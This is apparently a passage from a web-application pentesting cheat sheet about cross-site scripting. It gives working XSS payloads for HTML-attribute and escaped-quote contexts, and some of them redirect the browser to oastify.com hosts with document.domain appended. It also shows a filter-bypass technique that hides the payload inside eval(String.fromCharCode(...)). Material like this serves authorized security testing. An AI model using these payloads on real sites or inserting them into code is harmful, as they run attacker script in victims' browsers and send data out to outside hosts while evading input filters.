 Additionally, if the context is within an HTML attribute and angle brackets are encoded, you can do the following. Note that encoding the payload actually made it not work so it is good to try many things. The closing quotation is not included since one will be there with the current context:

```javascript
test123" onmouseover="document.location = 'https://xxx.oastify.com/?x=' + document.domain
```

If the app is encoding angle brackets/double quotes and escaping single quotes, the below payloads can help bypass restrictions. For example, go to CyberChef, select "To Decimal" and set the delimiter to "Comma". Paste the payload results within the "string.fromCharCode()" function.

For example, the original payload may be:

```javascript
\'; document.location =  "https://3imrz0nwbl.oastify.com/?x=" + document.domain + "END" ; //
```

And the final payload may be:

```javascript
\'; eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,99,118,98,48,115,54,111,118,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,69,78,68,34)) ; //
```

This payload executes the document.domain:

```javascript
\'; var x = String.fromCharCode(100,111,99,117,109,101,110,116,46,100,111,109,97,105,110) ; alert(eval(x)) ; //
```







